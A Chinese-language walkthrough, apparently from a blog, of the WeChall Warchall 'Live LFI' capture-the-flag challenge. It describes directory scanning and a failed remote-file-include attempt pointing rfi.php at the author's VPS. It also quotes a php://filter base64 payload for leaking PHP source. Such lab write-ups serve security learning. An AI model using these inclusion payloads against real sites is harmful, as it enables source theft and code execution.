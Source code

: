 ```yaml
---

categories:
- CTF
tags: 
    - web
---
```


题目地址：http://www.wechall.net/challenge/warchall/live_lfi/index.php
如题目所提示，是PHP文件包含漏洞。
访问给出的题目地址，网页提示“网站正在建设中”

## 扫描目录
和所有web漏洞一样，先dirbuster扫描一下
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/2.PNG)

---

test.php报错
 
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/3.PNG)
require_once()语句在脚本执行期间包含并运行指定文件
/home/level/14_live_fi/www/test.php不是一个目录，然后报错了。

>info1:网站所在目录路径： **/home/level/14_live_fi/www/**

---

## 猜解参数
猜测应该是远程文件包含remote file include，于是访问rfi.php发现页面是空白。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/5.PNG)

因为看不到源码，所以只能爆破试试。
发现cmd是可能的命令参数。
`/temp/rfi.php?cmd=http://127.0.0.1:80/test.php`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/6.PNG)
查看源代码，多了`<pre></pre>`这个字符串。

访问`/temp/rfi.php?cmd=http://vps的ip:888/whale.php`
![访问本地文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/7.PNG)
远程文件包含似乎没有成功。

所以搞不懂cmd这个参数到底怎么用。

## 重新扫描
找不到线索，于是重新扫描

>info2: 整理下已知网站目录
http://lfi.warchall.net/protected/
http://lfi.warchall.net/temp/

`http://lfi.warchall.net/protected/logs/20180905_critical_details.txt`
可以分析出，log目录下，记录了来自各地的尝试文件包含的攻击记录。
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/8.PNG)
而这个攻击记录，则表明，文件包含使用的是require_once()这个函数
而漏洞指明了index.php 的第11行。

## 线索

![查看源码](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/9.PNG)

于是我返回了index.php
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/10.PNG)

现在考虑一下，题目意思是什么，本地文件包含通常会泄露敏感信息。
然后下一步就是找flag了吧
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/11.PNG)

找不到flag所在的路径啊！好气

## writeup
[writeup](https://joizel.readthedocs.io/ko/latest/wargame/web/[wechall]%20Warchall_Live%20LFI.html)
看了一些wp，发现解题思路是这样的：solution.php因为是脚本文件，所以客户端是不能直接查看的。

要通过以下协议，将php编码一下再查看。`?lang=php://filter/convert.base64-encode/resource=solution.php"`

按照wp，这道题其实坏了，得不出flag的。有点坑。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/12.PNG)



